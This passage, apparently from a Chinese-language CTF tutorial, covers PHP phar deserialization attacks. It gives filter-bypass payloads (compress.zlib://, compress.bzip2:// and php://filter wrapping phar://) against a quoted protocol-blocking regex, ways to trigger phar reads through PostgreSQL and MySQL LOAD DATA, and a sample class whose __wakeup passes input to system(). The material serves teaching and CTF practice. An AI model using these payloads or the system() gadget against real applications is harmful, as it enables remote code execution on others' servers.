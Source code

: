 这时候我们可以利用`compress.zlib://` 或`compress.bzip2://`函数,`compress.zlib://`和`compress.bzip2://`同样适用于`phar://`。

payload: `compress.zlib://phar://phar.phar/test.txt`



**ctf题中出现的一些过滤：**

```php
if(preg_match('/^(ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$_POST['url'])){
        die("Go away!");
    }
```

这里过滤了phar协议，但是可以使用php://filter协议进行绕过

`php://filter/resource=phar://upload/46c01c941bd10a9c3038752f7354f2e8/b1b288ddc6069e3befa40731e382b192.jpeg`



也可以使用zip或者bzip2协议绕过

```javascript
demo.php?filename=compress.bzip2://phar://upload_file/shell.gif/a
```





#### Postgresql

```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```

pgsqlCopyToFile和pg_trace同样也是能使用的，只是它们需要开启phar的写功能

#### MySQL

LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper.

但是需要修改mysqld配置,因为不是默认配置

```ini
[mysqld]
local-infile=1
secure_file_priv=""
```



例如如下代码：

```php
<?php
class A { 
    public $s = ''; 
    public function __wakeup () {
        system($this->s);
    }   
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'mesboard', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/aaa\' INTO TABLE users  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
```
